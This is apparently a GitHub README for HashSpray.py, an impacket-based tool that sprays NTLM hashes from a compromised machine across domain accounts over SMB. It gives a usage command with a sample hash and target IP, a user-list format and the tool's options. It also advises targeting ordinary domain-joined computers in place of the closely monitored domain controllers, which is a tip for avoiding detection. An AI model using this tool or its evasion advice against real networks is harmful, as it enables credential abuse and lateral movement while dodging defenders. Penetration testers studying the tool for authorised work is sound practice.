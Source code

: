 # HashSpray.py

Got hashes from a compromised machine and want to test if the password hash have been reused over multiple accounts? Get a userlist and spray with this tool with -hashes parameter and with the -target-ip pointing at ANY domain joined computer. You dont need to spray the heavy monitored domain controllers, authenticated users will have access to the IPC$ share by default.


This was built using the impacket library

```
python hashspray.py -userlist users -hashes :1uca3d1bd1a33geb1b15bab12196r5aa -target-ip 192.168.5.1  -threads 10
```
Userlist example

```
domain\user
user
```

```
authentication:
  -userlist userlist    List of users to spray, format is [[domain/]username
  -password password    Clear-text password
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it
                        will use the domain part (FQDN) specified in the
                        target parameter
  -target-ip ip address
                        IP Address of the target machine. This may be any be
                        any domain joined computer or a domain controller
  -port [destination port]
                        Destination port to connect to SMB Server

threads:
  -threads threads      Number of threads to use, default is 1
```
